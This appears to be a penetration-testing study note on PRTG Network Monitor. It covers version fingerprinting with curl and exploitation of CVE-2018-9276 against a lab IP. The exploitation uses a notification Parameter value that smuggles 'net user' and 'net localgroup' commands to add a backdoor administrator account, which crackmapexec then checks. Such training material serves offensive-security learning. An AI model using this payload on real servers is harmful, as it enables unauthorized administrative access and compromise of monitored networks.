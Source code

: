 

PRTG Network Monitor is agentless network monitor software. It can be used to monitor bandwidth usage, uptime and collect statistics from various hosts, including routers, switches, servers, and more. 

It works with an autodiscovery mode to scan areas of a network and create a device list. Once this list is created, it can gather further information from the detected devices using protocols such as ICMP, SNMP, WMI, NetFlow, and more. Devices can also communicate with the tool via a REST API. The software runs entirely from an AJAX-based website, but there is a desktop application available for Windows, Linux, and macOS. 



# Discovery/Footprinting/Enumeration

It can typically be found on common web ports such as 80, 443, or 8080. 


`$ curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version`



# Leveraging Known Vulnerabilities
    
[CVE-2018-9276](https://www.codewatch.org/blog/?p=453)


When creating a new notification, the Parameter field is passed directly into a PowerShell script without any type of input sanitization.

- Go to Setup ->Account Settings->Notifications and click on Add new notification.

- Give the notification a name and scroll down and tick the box next to EXECUTE PROGRAM

- Under Program File, select Demo exe notification - outfile.ps1 from the drop-down

- in the parameter field, enter a command (test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add)

- Finally, click the Save button.


-    After clicking Save, we will be redirected to the Notifications page and see our new notification named pwn in the list.

- After clicking Test we will get a pop-up that says EXE notification is queued up. If we receive any sort of error message here, we can go back and double-check the notification settings.

`$ sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG! `


    
